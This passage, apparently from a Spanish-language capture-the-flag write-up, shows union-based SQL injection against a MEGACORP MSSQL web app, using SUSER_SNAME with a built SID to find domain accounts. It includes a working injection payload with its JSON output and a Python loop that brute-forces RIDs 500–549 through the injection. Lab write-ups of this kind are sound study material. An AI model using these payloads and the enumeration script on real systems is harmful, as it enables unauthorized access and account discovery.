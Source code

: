 Si sumo una unidad al RID, quedaría lo siguiente:

```null
Python 3.10.9 (main, Dec  7 2022, 13:47:07) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(501)
'0x1f5'
```

Lo convierto a big endian y lo cambio en la query de la sqli

```null
-> test' union select 1,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f5010000),3,4,5-- -
[
     {
          "id": 1,
          "name": "MEGACORP\\Guest",
          "position": "3",
          "email": "4",
          "src": "5"
     }
]
```

Y tengo otro usuario que no tenía contemplado en el diccionario

Modifico el script de python para aplicar fuerza bruta en un rango de RIDs

Para ello creo una nueva función y sustituyo el bucle infinito por un intervalo

La nueva función es la siguiente

```null
def bruteforceRID(RID):
    
    hex_RID = hex(RID).replace('x', '')

    list = []

    for character in hex_RID:
        list.append(character)

    RID = list[2] + list[3] + list[0] + list[1] + "0000"

    return RID
```

El main tendrá este aspecto

```null
if __name__ == '__main__':

    for num in range(500, 550): # Mediante un bucle infinito, solicito el input que quiero transformar

        RID = bruteforceRID(num)

        sqli = "test' union select 1,SUSER_SNAME(%s%s),3,4,5-- -" % (SID, RID)
        sqli = sqli.strip()

        formatunicode(sqli)

        sqli_formated = formatunicode(sqli)

        toprint = makeRequest(sqli_formated)

        makeRequest(sqli_formated)

```
